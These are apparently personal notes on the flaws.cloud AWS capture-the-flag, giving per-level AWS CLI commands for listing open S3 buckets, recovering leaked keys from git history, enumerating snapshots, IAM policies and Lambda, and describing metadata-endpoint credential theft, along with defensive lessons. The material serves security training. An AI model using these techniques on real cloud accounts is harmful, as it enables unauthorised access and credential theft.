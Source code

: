  listed the objects in the bucket
 `aws s3api list-objects-v2 --bucket thebigiamchallenge-storage-9979f4b `

 aws s3 cp s3://thebigiamchallenge-storage-9979f4b/files/flag1.txt - 


# Flaws.cloud Basic AWS s3 Misconfigurations CTF
### check if the site is gosted atatically on s3 bucket
```dig +nocmd flaws.cloud any +multiline +noall +answer ```

#### since the ip returned will be aws ip, hence it is an s3 bucket
another way to test will be to search http://<domainname>.s3.amazonaws.com/

## Level 1 - listing allowed on s3 Everyone
List bucket contents
``` aws s3 ls  s3://flaws.cloud/ --no-sign-request --region us-west-2 ```
  or if you are already authenticated then:
``` aws s3 ls  s3://flaws.cloud/ ```

 ## Level 2 - listing allowed on s3 Authenticated Users Only (IAM)
``` aws s3  ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud (need an account)```

## Level 3  S3 buckets git AWS secrets leakage
```aws s3 ls s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/```
```aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ .```
```git log```
```git checkout f7cebc46b471ca9838a0bdd1074bb498a3f84c87```
```git diff f52ec03b227ea6094b04e43f475fb0126edb5a61 b64c8dcfa8a39af06521cf4cb7cdce5f0ca9e526```
 
```aws configure --profile flaws```
```aws --profile flaws s3 ls```

People often leak AWS keys and then try to cover up their mistakes without revoking the keys. You should always revoke any AWS keys (or any secrets) that could have been leaked or were misplaced. Roll your secrets early and often.

# Level 4 : EBS Snapshot Snarfing
Finding Snapshot
AWS allows you to make snapshots of EC2's and databases (RDS). The main purpose for that is to make backups, but people sometimes use snapshots to get access back to their own EC2's when they forget the passwords. This also allows attackers to get access to things. Snapshots are normally restricted to your own account, so a possible attack would be an attacker getting access to an AWS key that allows them to start/stop and do other things with EC2's and then uses that to snapshot an EC2 and spin up an EC2 with that volume in your environment to get access to it. Like all backups, you need to be cautious about protecting them.

# Mounting a snapshot
http://level4-1156739cfb264ced6de514971a4bef68.flaws.cloud/hint2.html
```aws --profile flaws sts get-caller-identity```
```aws --profile flaws  ec2 describe-snapshots --owner-id 975426262029```


# Level 5 Instance Profile Metadata Attack
On cloud services, including AWS, the IP 169.254.169.254 is magical. It's the metadata service.
There is an RFC on it (RFC-3927), but you should read the AWS specific docs on it https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html.

The IP address 169.254.169.254 is a magic IP in the cloud world. AWS, Azure, Google, DigitalOcean and others use this to allow cloud resources to find out metadata about themselves. Some, such as Google, have additional constraints on the requests, such as requiring it to use `Metadata-Flavor: Google` as an HTTP header and refusing requests with an `X-Forwarded-For` header. AWS has recently created a new IMDSv2 that requires special headers, a challenge and response, and other protections, but many AWS accounts may not have enforced it. If you can make any sort of HTTP request from an EC2 to that IP, you'll likely get back information the owner would prefer you not see.
Examples of this problem
Nicolas GrÃ©goire discovered that prezi allowed you point their servers at a URL to include as content in a slide, and this allowed you to point to 169.254.169.254 which provided the access key for the EC2 intance profile (link). He also found issues with access to that magic IP with Phabricator and Coinbase.
A similar problem to getting access to the IAM profile's access keys is access to the EC2's user-data, which people sometimes use to pass secrets to the EC2 such as API keys or credentials.
Avoiding this mistake
Ensure your applications do not allow access to 169.254.169.254 or any local and private IP ranges. Additionally, ensure that IAM roles are restricted as much as possible.
    
# Level 6  Read-Only Recon of API Gateway and Lambda 
```aws --profile level6 iam get-user```
```aws --profile level6 iam list-attached-user-policies --user-name Level6```
```aws --profile level6 iam get-policy  --policy-arn arn:aws:iam::975426262029:policy/list_apigateways```
```aws --profile level6 iam get-policy-version  --policy-arn arn:aws:iam::975426262029:policy/list_apigateways --version-id v4```
```aws --region us-west-2 --profile level6 lambda list-functions```
```aws --region us-west-2 --profile level6 lambda get-policy --function-name Level6```
```aws --profile level6 --region us-west-2 apigateway get-stages --rest-api-id "s33ppypa75"```
## Lesson learned
It is common to give people and entities read-only permissions such as the SecurityAudit policy. The ability to read your own and other's IAM policies can really help an attacker figure out what exists in your environment and look for weaknesses and mistakes.
Avoiding this mistake
Don't hand out any permissions liberally, even permissions that only let you read meta-data or know what your permissions are.


## Find S3 buckets for an organization
https://github.com/nahamsec/lazys3

## Gui brower for cloud storage
its a libre server
https://cyberduck.io/?l=en

## AWS Bounties report Hackerone
https://hackerone.com/reports/163476 - Information Disclosure Robotlegal
https://hackerone.com/reports/57505 - Shopify


 # Flaws
 1. opening list  permissions to "Everyone"
 2. open list permissions to "Any Authenticated AWS User"

